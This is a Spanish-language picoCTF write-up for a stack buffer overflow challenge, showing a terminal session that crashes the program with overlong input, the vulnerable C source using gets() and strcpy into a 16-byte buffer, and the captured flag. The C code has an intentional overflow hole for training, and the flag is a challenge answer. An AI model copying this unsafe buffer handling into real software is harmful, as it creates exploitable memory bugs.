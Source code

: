 
## Descripcion

Smash the stackLet's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/173/vuln). You can view source [here](https://artifacts.picoctf.net/c/173/vuln.c). And connect with it using:`nc saturn.picoctf.net 51532`

## Pistas

- Run `man gets` and read the BUGS section. How many characters can the program really read?

## Solucion
``` bash 
┌──(kali㉿kali)-[~/…/Repositorio/notas-hacking/Utils/Actividad17]
└─$ chmod +x vuln        
                                                                                      
┌──(kali㉿kali)-[~/…/Repositorio/notas-hacking/Utils/Actividad17]
└─$ ./vuln 
Please create 'flag.txt' in this directory with your own debugging flag.
                                                                                      
┌──(kali㉿kali)-[~/…/Repositorio/notas-hacking/Utils/Actividad17]
└─$ echo "flag{dumierflag}" > flag.txt
┌──(kali㉿kali)-[~/…/Repositorio/notas-hacking/Utils/Actividad17]
└─$ ./vuln
Input: ya avsado ajsdalsd jjjajaj jjjjjjjjjjjj
flag{dumierflag}



```

``` bash 

┌──(kali㉿kali)-[~/…/Repositorio/notas-hacking/Utils/Actividad17]
└─$ nc saturn.picoctf.net 51532
Input: sjjjjjjjjjjjjjjjjjaoooooooooooooooooooaaa
picoCTF{ov3rfl0ws_ar3nt_that_bad_90d2bb58}
```

``` c
  GNU nano 7.2                            vuln.c                                      
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}

```

## Bandera
picoCTF{ov3rfl0ws_ar3nt_that_bad_90d2bb58}

## Notas adicionales

El buffer tiene un limite de 16 caracteres, si ponemos mas truna el programa

## Referencias